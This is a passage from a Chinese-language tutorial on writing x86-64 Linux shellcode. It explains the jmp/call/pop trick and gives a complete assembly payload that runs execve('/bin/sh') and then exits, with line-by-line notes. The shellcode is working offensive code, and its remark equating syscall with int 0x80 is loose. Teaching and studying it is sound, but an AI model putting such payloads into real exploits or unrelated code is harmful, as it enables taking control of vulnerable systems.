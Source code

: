 1. 首先，我们需要一个字符串"/bin/sh"，并且需要知道它的确切地址
2. 然后，我们需要将参数传递给相应的寄存器
3. 最后，调用系统调用。

如何方便的获取到一个字符串的地址呢？

**一种方法是将字符串放到一个`call`指令的后面，这样，当这个`call`指令执行的时候，该字符串的首地址便被加入到栈中。** 

比如

call func ；call func，就把string字符串的地址自动压入栈中了

string:....

func: pop ax；把字符串的地址放到ax中

好了，我不再绕弯子了，下面给出一个shellcode：

```assembly
jmp mycall
func: pop %rbx
mov %rbx, 0x8(%rsp)
movb $0x0, 0x7(%rsp)
movl $0x0, 0x10(%rsp)
mov $59, %rax
mov %rbx, %rdi
lea 0x8(%rsp), %rsi
lea 0x10(%rsp), %rdx
syscall
mov $60, %rax
mov $0, %rdi
syscall
mycall: call func
.string \"/bin/sh\"
```

对上面的解释：

```assembly
1.  jmp mycall

        当shellcode执行时，会先执行这一条，这会使我们的程序跳转到第14行的call指令处

2.  func: pop %rbx
        
        我们从栈中获取返回地址，这也是字符串所在的地址

3.  mov %rbx, 0x8(%rsp)
4.  movb $0x0, 0x7(%rsp)
5.  movl $0x0, 0x10(%rsp)

        尽管我们有了字符串的地址，但是我们并没有第二个参数和第三个参数所在的地址，所以程序在栈上构造出第二个和第三个参数

6.  mov $59, %rax
7.  mov %rbx, %rdi
8.  lea 0x8(%rsp), %rsi
9.  lea 0x10(%rsp), %rdx

        我们将参数传递给指定的寄存器

10. syscall

        使用syscall指令进行系统调用，这在x86 Linux中为int 0x80

11. mov $60, %rax
12. mov $0, %rdi
13. syscall

        为了使我们的shellcode在退出shell后正常退出，需要调用下exit系统调用，退出代码为0
```